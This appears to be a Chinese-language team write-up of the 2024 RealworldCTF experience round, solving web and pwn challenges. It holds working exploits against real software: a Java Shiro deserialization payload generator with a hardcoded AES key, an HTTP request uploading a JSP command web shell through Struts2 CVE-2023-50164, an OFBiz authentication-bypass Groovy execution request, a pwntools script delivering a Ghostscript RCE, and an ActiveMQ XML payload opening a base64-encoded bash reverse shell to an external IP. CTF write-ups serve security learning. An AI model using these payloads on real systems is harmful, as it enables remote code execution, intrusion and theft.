# 2024 RealworldCTF-体验赛

比赛地址：[https://be-a-rwctfer.realworldctf.com/](https://be-a-rwctfer.realworldctf.com/)

公共账号：0RAYS/0raysadmin.com

时间：2024 年 1 月 27 日 10:00 - 28 日 10:00（GMT+8，24 小时）

# Web

## Old-Shiro | solved

shiro 反序列化，不出网



cookie 关键字：rememberMe_rwctf_2024

AES 密钥：kPH+bIxk5D2deZiIxcaaaA==



有长度限制

```java
server.max-http-header-size = 3000
```

可以执行命令，但不出网

[https://www.00theway.org/2020/01/17/java-god-s-eye/](https://www.00theway.org/2020/01/17/java-god-s-eye/)

[https://xz.aliyun.com/t/7307?time__1311=n4%2BxnD0GDte8DODuDBqroGkiDkmG8mGGFK%3DeD&alichlgref=https%3A%2F%2Fwww.google.com%2F](https://xz.aliyun.com/t/7307?time__1311=n4%2BxnD0GDte8DODuDBqroGkiDkmG8mGGFK%3DeD&alichlgref=https%3A%2F%2Fwww.google.com%2F)

在 linux 环境下，可以通过文件描述符"/proc/self/fd/i"获取到网络连接，在 java 中我们可以直接通过文件描述符获取到一个 Stream 对象，对当前网络连接进行读写操作

Exp

```java
<em>import </em>com.sun.org.apache.bcel.internal.Repository;
<em>import </em>com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
<em>import </em>com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
<em>import </em>com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
<em>import </em>javassist.ClassPool;
<em>import </em>javassist.CtClass;
<em>import </em>javassist.CtConstructor;
<em>import </em>org.apache.commons.collections.Transformer;
<em>import </em>org.apache.commons.collections.functors.InvokerTransformer;
<em>import </em>org.apache.commons.collections.keyvalue.TiedMapEntry;
<em>import </em>org.apache.commons.collections.map.LazyMap;
<em>import </em>org.apache.shiro.crypto.AesCipherService;
<em>import </em>org.apache.shiro.util.ByteSource;
<em>import </em>javax.xml.transform.Templates;
<em>import </em>java.io.ByteArrayOutputStream;
<em>import </em>java.io.FileDescriptor;
<em>import </em>java.io.FileOutputStream;
<em>import </em>java.io.ObjectOutputStream;
<em>import </em>java.lang.reflect.Constructor;
<em>import </em>java.lang.reflect.Field;
<em>import </em>java.util.HashMap;
<em>import </em>java.util.Map;

<em>public class </em>Exp {

    <em>static </em>ClassPool pool = ClassPool.getDefault();
    <em>public static void </em>main(String []args) <em>throws </em>Exception {


        CtClass ctClass = pool.makeClass("ab");
        CtClass superClass = pool.get(AbstractTranslet.<em>class</em>.getName());
        ctClass.setSuperclass(superClass);
        CtConstructor constructor = <em>new </em>CtConstructor(<em>new </em>CtClass[]{},ctClass);
        constructor.setBody("{java.lang.reflect.Constructor c = java.io.FileDescriptor.class.getDeclaredConstructor(new Class[]{int.class});\n" +
                "        c.setAccessible(true);\n" +
                "        Process process = Runtime.getRuntime().exec(\"cat /flag\");\n" +
                "        java.io.InputStream in =  process.getInputStream();\n" +
                "        java.io.BufferedReader br = new java.io.BufferedReader(new java.io.InputStreamReader(in));\n" +
                "        String ret = br.readLine();\n" +
                "        java.io.FileOutputStream os = null;\n" +
                "        for(int i=0;;i++){os = new java.io.FileOutputStream((java.io.FileDescriptor)c.newInstance(new Object[] {new Integer(i)}));os.write(ret.getBytes());}" +
                "        Runtime.getRuntime().exec(\"touch b\");}");

        ctClass.addConstructor(constructor);
        <em>byte</em>[] bytes = ctClass.toBytecode();
        <em>byte</em>[] payloads = <em>new </em>Exp().getPayload(bytes);

        AesCipherService aes = <em>new </em>AesCipherService();
        <em>byte</em>[] key = java.util.Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");

        ByteSource ciphertext = aes.encrypt(payloads, key);
        System.out.println(ciphertext.toString().length());
        System.out.println(ciphertext.toString());
    }

    <em>public static void </em>setFieldValue(Object obj, String fieldName, Object value) <em>throws </em>Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(<em>true</em>);
        field.set(obj, value);
    }

    <em>public byte</em>[] getPayload(<em>byte</em>[] clazzBytes) <em>throws </em>Exception {

        Templates obj = <em>new </em>TemplatesImpl();
        setFieldValue(obj, "_bytecodes", <em>new byte</em>[][]{clazzBytes});
        setFieldValue(obj, "_name", "a");
        setFieldValue(obj, "_tfactory", <em>null</em>);

        Transformer transformer = <em>new </em>InvokerTransformer("getClass", <em>null</em>, <em>null</em>);
        Map innerMap = <em>new </em>HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformer);
        TiedMapEntry tme = <em>new </em>TiedMapEntry(outerMap, obj);
        Map expMap = <em>new </em>HashMap();
        expMap.put(tme, "1");
        outerMap.clear();
        setFieldValue(transformer, "iMethodName", "newTransformer");

<em>        </em>ByteArrayOutputStream barr = <em>new </em>ByteArrayOutputStream();
        ObjectOutputStream oos = <em>new </em>ObjectOutputStream(barr);
        oos.writeObject(expMap);
        oos.close();

        <em>return </em>barr.toByteArray();
    }
}
```



## Be-More-Elegant | solved

CVE-2023-50164

struts2 最近的文件上传漏洞？

只有 /views 目录下的 jsp 文件才能被访问



```http
POST /header_icon/upload.action?fileUploadFileName=../../../views/pankasshell.jsp HTTP/1.1
Host: 47.99.57.31:8080
Content-Length: 730
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryNlJfZellNwfq4TSr
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.8:8081/header_icon/shell
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=E5DBF602B60BD3ADBB9BFEF9A583624B
Connection: close

------WebKitFormBoundaryNlJfZellNwfq4TSr
Content-Disposition: form-data; name="FileUpload"; filename="aaa.png"
Content-Type: image/png

<%@ page import="java.io.*" %>
<%
    String cmd = request.getParameter("cmd");
    String output = "";
    if (cmd != null) {
        String s = null;
        try {
            Process p = Runtime.getRuntime().exec(cmd, null, null);
            BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
            while ((s = sI.readLine()) != null) {
                output += s + "\n";
            }
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
%>
<%=output %>
------WebKitFormBoundaryNlJfZellNwfq4TSr--
```



## Be-a-Captcha-Guesser

[http://121.40.246.97/](http://121.40.246.97:36958/)

```python
from django.contrib.auth.models import User
from django.shortcuts import render
from wagtail.admin.panels import FieldPanel
from wagtail.blocks import TextBlock
from wagtail.fields import RichTextField, StreamField

from wagtail.models import Page
from wagtailcodeblock.blocks import CodeBlock

user_code_map = {}


class HomePage(Page):
    body = StreamField([
        ("heading", TextBlock()),
        ("code", CodeBlock(label='Code')),
    ], use_json_field=True, blank=True)

    content_panels = Page.content_panels + [
        FieldPanel("body"),
    ]


class LoginPage(Page):

    def serve(self, request, *args, **kwargs):
        from .forms import CaptchaLoginForms
        if request.method == "POST":
            form = CaptchaLoginForms(data=request.POST)
            if form.is_valid():
                username = form.cleaned_data['username']
                exist = User.objects.filter(username=username).exists()
                if not exist:
                    form.add_error('username', 'username or password error')
                return render(request, "home/login_page.html", {"form": form, 'page': self})
        else:
            form = CaptchaLoginForms()
        return render(request, "home/login_page.html", {"form": form, 'page': self})


class ChangePasswordPage(Page):

    def serve(self, request, *args, **kwargs):
        from .forms import CaptchaResetPasswordForms
        from .util import random_string
        if request.method == "POST":
            form = CaptchaResetPasswordForms(data=request.POST)
            if form.is_valid():
                exist = User.objects.filter(username=form.cleaned_data['username'],
                                            email=form.cleaned_data['email']).exists()
                if exist:
                    username = form.cleaned_data['username']
                    request.session['username'] = username
                    code = random_string(6, lower=False, upper=False)
                    user_code_map[username] = code
                    print('code=', code)
                    return render(request, "home/change_password_page.html", {"form": form, 'page': self, "ok": True})
                else:
                    form.add_error('username', 'username or email error')
        else:
            form = CaptchaResetPasswordForms()
        request.session.delete('username')
        return render(request, "home/change_password_page.html", {"form": form, 'page': self})


class DoResetPasswordPage(Page):
    def serve(self, request, *args, **kwargs):
        from .forms import DoResetPasswordForms
        username = request.session.get('username')
        if not username or not User.objects.filter(username=username).exists():
            return render(request, "home/no_permission.html")
        if request.method == "POST":
            form = DoResetPasswordForms(data=request.POST)
            if form.is_valid():
                password1 = form.cleaned_data['password1']
                password2 = form.cleaned_data['password2']

                if password1 != password2:
                    form.add_error('password1', 'the two passwords are inconsistent')
                    return render(request, "home/do_reset_password_page.html",
                                  {"form": form, 'page': self, "ok": False})

                if user_code_map.get(username) == form.cleaned_data['code']:
                    user = User.objects.get(username=username)
                    user.set_password(password1)
                    user.save()
                    return render(request, "home/do_reset_password_page.html", {"form": form, 'page': self, "ok": True})
                else:
                    form.add_error('code', 'code or username error')
                    return render(request, "home/do_reset_password_page.html",
                                  {"form": form, 'page': self, "ok": False})
        else:
            form = DoResetPasswordForms()
        return render(request, "home/do_reset_password_page.html", {"form": form, 'page': self, "ok": False})


# wait for admin to publish
class FlagPage(Page):
    flag = RichTextField(blank=True)
    content_panels = Page.content_panels + [
        FieldPanel('flag')
    ]
```

[https://exp10it.io/2023/10/jumpserver-%E4%BC%AA%E9%9A%8F%E6%9C%BA%E6%95%B0%E5%AF%86%E7%A0%81%E9%87%8D%E7%BD%AE%E6%BC%8F%E6%B4%9E-cve-2023-42820-%E5%88%86%E6%9E%90/](https://exp10it.io/2023/10/jumpserver-%E4%BC%AA%E9%9A%8F%E6%9C%BA%E6%95%B0%E5%AF%86%E7%A0%81%E9%87%8D%E7%BD%AE%E6%BC%8F%E6%B4%9E-cve-2023-42820-%E5%88%86%E6%9E%90/)

## Be-a-Security-Researcher|solved

用 Jetty(10.0.18)起的 jenkins

[https://attackerkb.com/topics/nGvoto1E9c/cve-2024-23897](https://attackerkb.com/topics/nGvoto1E9c/cve-2024-23897)



有一个任意文件读



## Be-a-Framework-Hacker | solved

Apache_OFBiz_CVE-2023-51467

去年刚复现过

[https://pankas.top/2023/12/30/apache_ofbiz_cve-2023-51467%E5%A4%8D%E7%8E%B0/](https://pankas.top/2023/12/30/apache_ofbiz_cve-2023-51467%E5%A4%8D%E7%8E%B0/)

```http
POST /webtools/control/ProgramExport?USERNAME=&PASSWORD=&requirePasswordChange=Y HTTP/2
Host: 127.0.0.1:8443
Content-Type: application/x-www-form-urlencoded
Content-Length: 66

groovyProgram=throw%20new%20Exception("/readflag".execute().text);
```



## YourSqlTrick

DedeCMS 的 sql 注入

# Pwn

## Be-an-Interpreter-Hacker | Solved

Ghostscript 10.01.0, exp CVE-2023-28879

官方 bugzilla 有人给了 poc,尝试复现([https://bugs.ghostscript.com/show_bug.cgi?id=706494](https://bugs.ghostscript.com/show_bug.cgi?id=706494))

本地起 docker,127.0.0.1:1337 nc 上去，然后一行一行输入 poc,得到部分正确的地址(3/5)

```python
from pwn import *

with open('debian10.01.0.ps', 'r') as file:
    lines = file.read().splitlines()

for idx in range(len(lines)):
    sh.sendline(lines[idx].encode())
    sleep(0.125)
    print(sh.recv(timeout=0.125).decode())
    print(f'line <strong>{</strong>idx + 1<strong>}</strong> sent')
```

---

google 搜索"Ghostscript exploit"成功找到万用脚本 [https://github.com/AlmondOffSec/PoCs/tree/master/Ghostscript_rce](https://github.com/AlmondOffSec/PoCs/tree/master/Ghostscript_rce)

本地复现，docker 复现均通过，尝试连接远端

首先完成工作量证明，然后发送 exp，成功拿到终端

<strong>还有就是 final-poc.ps.template 中的</strong><strong>id\0</strong><strong>命令要换成</strong><strong>/bin/sh\0</strong>

作者的详解：https://offsec.almond.consulting/ghostscript-cve-2023-28879.html

```python
from pwn import *
from pwnlib.util.iters import mbruteforce
from hashlib import md5
import string
import sys

REMOTE = '47.98.192.157'
sh = remote(REMOTE, 1337)
sh.recvuntil(b'"')
startflag = sh.recv(5).decode()

def brute(cur):
    s = md5(cur.encode())
    if s.hexdigest().startswith(startflag):
        return True
    return False

res = mbruteforce(brute, string.ascii_letters + string.digits, method = 'upto', length=4, threads = 20)
sh.sendline(res.encode())

sh.recvuntil(b'port: ')
newport = int(sh.recvline().decode())

sleep(5) # wait for service to start
sh.close() # when we see 'bye', we can close it

sh = remote(REMOTE, newport)
with open('final-poc.ps', 'r') as file:
    lines = file.read().splitlines()

for idx in range(len(lines)):
    sh.sendline(lines[idx].encode())
    sleep(0.125)
    print(sh.recv(timeout=0.125).decode())
    print(f'line {idx + 1} sent') 

sh.interactive()
```



## Be-an-ActiveMq-Hacker | solved

activemq 的 RCE，[https://github.com/X1r0z/ActiveMQ-RCE](https://github.com/X1r0z/ActiveMQ-RCE)

poc.xml

```xml
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg >
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>{echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzExNi42Mi42NS4yMDYvNTI1MjAgMD4mMQ==}|{base64,-d}|{bash,-i}</value>
                <value></value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```



## vision

Supported commands: ping, uname, pwd, date, whoami, poweroff, id, showKey, openthedoor

ping，showKey 和 openthedoor 会程序自己处理，其他的会交给 linux 处理，输入除了以上命令以外的命令会 Not Support 4.，尝试用&等命令连接符号也会报错。

showKey 再用得到的 key 去 openthedoor 可以在读入的字符串里写上 cat ./flagx \n 的前 7 字节，但马上函数返回之后就会被 memset 清空，不知道有什么用。



漏洞点在这里，这里会按偏移去一个字节一个字节地在 cmd_list 里面找，输入空格就会截断，而这个 cmd_list 里面刚好有个 showKey,也就是说这里我们输入 sh< 空格 > 是可以绕过这里的检查的，输入 sh -c "cat flag"就可以绕过下面的检查，get 到 flag 了。

